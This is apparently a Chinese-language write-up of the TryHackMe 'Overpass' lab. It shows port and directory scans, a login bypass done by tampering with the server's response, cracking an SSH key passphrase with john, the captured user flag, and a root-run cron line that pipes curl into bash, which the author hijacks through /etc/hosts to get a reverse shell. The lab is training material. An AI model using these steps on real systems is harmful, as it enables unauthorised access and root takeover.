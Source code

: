 ```yaml
---
title: tryhackme - Overpass
---
```


```
Target ip :10.10.105.142
```

### 扫描开放端口：
```bash
└─$ nmap -sS -Pn -T4 10.10.105.142

Nmap scan report for 10.10.105.142
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

### 访问80端口：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709180205031.png)


### 对站点进行目录扫描：
```bash

└─$ python dirsearch.py -u http://10.10.105.142/ -i 200 

Target: http://10.10.105.142/

[06:06:39] Starting:                                                                                     
[06:07:08] 200 -  782B  - /404.html                                         
[06:07:18] 200 -    1KB - /admin.html                                       
[06:07:18] 200 -    1KB - /admin/                                           
[06:08:03] 200 -    2KB - /downloads/                                       
[06:08:27] 200 -    2KB - /login.js                                         
[06:08:29] 200 -   28B  - /main.js   

```

### 访问http://10.10.105.142/login.js：
```js
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
#### 可以看到，如果登陆返回的statusOrCookie === "Incorrect credentials"，则显示登陆失败，否则跳转到adminstatusOrCookie === "Incorrect credentials"页面
#### 那么，抓包并修改返回值Incorrect credentials，成功登陆阳台：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709181813152.png)

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709182059844.png)
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709182125770.png)

### 将admin页面的RSA 文件保存到本地命名为id_rsa，并使用john破解密码,得到密码  james13：
```bash
└─$ ssh2john ./id_rsa > id_rsa.hash                               
                                                                                                         
(base) ┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (./id_rsa)     
1g 0:00:00:00 DONE (2025-07-09 06:27) 25.00g/s 334400p/s 334400c/s 334400C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
 
### 使用密钥连接ssh:
 ```bash
 └─$ sudo ssh james@10.10.105.142 -i id_rsa

Enter passphrase for key 'id_rsa': 

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}

```

#### 查看todo.txt:
```bash
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
#### 提示定时任务，所以去查看/etc/crontab:
```bash
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

```

#### 可以看到执行了一个buildscript.sh，并且是从`overpass.thm/downloads/src`下载的
#### 查看hosts文件，发现`overpass.thm`的解析地址是本地：
```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
#### 尝试将hosts解析修改成自己攻击ip,并在本地开启http服务，放置一个`buildscript.sh`，`buildscript.sh`设置反向shell命令，并开启监听,成功获得root shell：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709184721131.png)
